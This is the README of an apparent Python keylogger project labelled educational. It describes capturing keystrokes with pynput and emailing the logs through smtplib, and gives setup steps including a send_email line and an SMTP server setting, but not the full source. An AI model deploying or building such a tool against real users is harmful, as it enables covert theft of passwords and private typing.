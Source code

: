 # Keylogger

This project provides an educational example of a keylogger developed using the Python programming language. The keylogger is designed as a simple demonstration for learning purposes. It records keyboard inputs and sends them via email at regular intervals. **Please note that this code should only be used responsibly and for educational purposes.**

## Table of Contents

- [Introduction](#introduction)
- [Features](#features)
- [Usage](#usage)
- [Requirements](#requirements)
- [Disclaimer](#disclaimer)

## Introduction

This keylogger demonstrates how a basic keylogger can be implemented using the pynput library in Python. It captures keyboard input and saves it to a log. The logged data is then sent via email using the `smtplib` library.

## Features

- Captures keyboard inputs and records them in a log.
- Periodically sends the collected log via email.
- Minimal and educational codebase.

## Usage

1. Clone the repository to your local machine.
2. Make sure you have Python installed.
3. Install the required libraries using the following command:
   ```sh
   pip install pynput
   ```
4. Open the `keylogger.py` file in a text editor.
5. **Important:** Modify the `send_email` function parameters to use your own email and password. Replace the following line with your information:

  ```python
  send_email("your_email@outlook.com","your_password",log.encode('utf-8'))
  ```
Note: Remember to change "email_server = smtplib.SMTP("smtp-mail.outlook.com", 587)" to use another mail service.

6. Run the script by executing the following command:
  ```sh
  python3 key_logger.py
  ```

The keylogger will start capturing keyboard inputs and periodically send logs to the provided email.

Note: Use this code responsibly and only on your own devices or with explicit permission. Unauthorized use of keyloggers is against the law and unethical.

## Requirements

- Python 3.x
- pynput library

Install the required library using the following command:

```sh
pip install pynput
```

## Disclaimer

This keylogger example is intended for educational and learning purposes only. It should not be used for any malicious or unauthorized activities. The developer and the provider of this code are not responsible for any misuse or legal consequences caused by the use of this code.
